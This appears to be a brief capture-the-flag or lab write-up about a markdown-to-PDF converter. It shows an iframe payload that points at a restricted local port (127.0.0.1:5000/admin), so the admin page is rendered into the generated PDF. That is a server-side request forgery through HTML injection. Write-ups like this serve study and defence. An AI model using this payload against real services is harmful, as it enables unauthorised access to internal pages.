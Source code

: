 ```yaml
---
tags:
  - Mark_Down
  - MD
  - PDF
---
```

This website have functionality of changing `mark down` `.md` to pdf.
The website has restircted port on `5000` that we can't access `/admin`.


You can use `html` tags in `mark down`, and you can abuse `<iframe>` to see restricted port.
```html
<iframe src=http://127.0.0.1:5000/admin width="660" height="415" allowfullscreen>
```